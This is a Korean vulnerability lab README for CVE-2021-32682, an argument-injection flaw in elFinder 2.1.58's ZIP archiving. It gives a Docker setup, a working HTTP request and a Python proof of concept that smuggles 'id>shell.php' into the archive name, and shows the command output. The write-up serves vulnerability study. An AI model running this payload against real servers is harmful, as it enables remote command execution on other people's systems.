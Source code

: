 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.58 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.58을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.

`1.txt` 파일을 생성합니다.

![image](./1.png)


해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image](./2.png)

`1.txt`와 `2.zip`을 확인합니다.

![image](./3.png)


다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
다음과 같은 `poc.py`를 통해 request를 전송할 수 있습니다.
```
import subprocess

cmd = '''
curl -X GET "http://127.0.0.1:8080/php/connector.minimal.php?cmd=archive&name=-TvTT=id%3Eshell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip"   -H "Host: 127.0.0.1:8080"   -H "Accept: application/json, text/javascript, */*; q=0.01"   -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"   -H "X-Requested-With: XMLHttpRequest"   -H "Referer: http://127.0.0.1:8080/"   -H "Accept-Encoding: gzip, deflate"   -H "Accept-Language: en-US,en;q=0.9"   -H "Connection: close"
'''

subprocess.run(cmd, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어를 실행하고 출력을 저장합니다.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`을 의미합니다.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw`에서 `shell.php`를 확인합니다.

![image](./4.png)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```




